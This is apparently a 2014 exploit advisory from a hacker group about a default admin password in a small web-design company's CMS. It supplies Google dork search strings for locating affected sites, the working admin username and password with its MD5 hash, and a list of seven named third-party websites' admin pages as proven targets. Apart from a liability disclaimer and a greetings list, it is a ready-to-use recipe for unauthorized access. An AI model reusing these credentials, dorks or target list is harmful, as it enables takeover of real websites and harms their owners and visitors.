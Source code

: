 + Google Dork          : 
+                         - intext:"web design by javwebnet"
+                         - inurl:"admin/chace.php"
+                         - intitle:"Explore Your Brain ! \m/ Google sek ngaceng!"
+ Date                 : 05/01/2014
+ Exploit Author       : BarrabravaZ
+ Vendor Homepage      : http://www.javwebnet.com/
+ Version              : 1.0
+ Tested on            : Windows, Linux
+ Surabaya Blackhat "Learn to be Better"
+ 
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
«««:»»»          Author will be not responsible for any damage.          «««:»»»
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
x
x Issue: 
x Default Password Admin
x 
x Risk level: High
x ~ The remote attacker has the possibility to manage the website. ~
x ~ The remote attacker is able to login into website with access level as admin. ~
x 
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx

[!]###########################################################################[!]
##
## Proof Of Concept:
## http://127.0.0.1/admin/
##
## Username : admin
## Password : 17t17n25a (md5: 3445c774b86384665a5315b30f8a6735)
##
## Cro0t ##
## http://www.nomorsejagad.com/admin
## http://www.decalartworks.com/admin
## http://www.perdanajakarta.com/admin
## http://www.bangkitperdana.com/admin
## http://www.kecapborobudur.com/admin
## http://www.maulidaperdana.com/admin
## http://www.istanabajutidur.com/admin
##
[!]###########################################################################[!]

xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[ Thx TO ]
[+] Meninbox wong ganteng unyu2 :D 
[+] Katon --> Was here
[+] Zeeattacker aku njal0k oleh2 teko bangkok yo cok :v
[+] Bagfreakz aKa paijo painem hahaha
[+] Gandrunx --> master koding ,ajarin doong kakak..
[+] Ch0c0 terhumanisasi
[+] MyWisdom kakak paling cakep :*
[+] Array --> Mboh wong iki geje nick'e array wkwkwk
[+] Surabayag3tar guruku ('/\')
[+] Mr. DC bang jali :D
[+] Dem1t,Bejat,Morgue,OmJin..
[+] Siti Jubaidah,X'inject,R1O,Angel DOt ID...
[+] Haxor HuSsY, Hax0r W0w, Leet Hax0r,Kami Hax0r...
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[++] SurabayaBlackhat [++] Madleets [++] IFC [++] Hiddenc0de [++] devilzc0de [++]
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx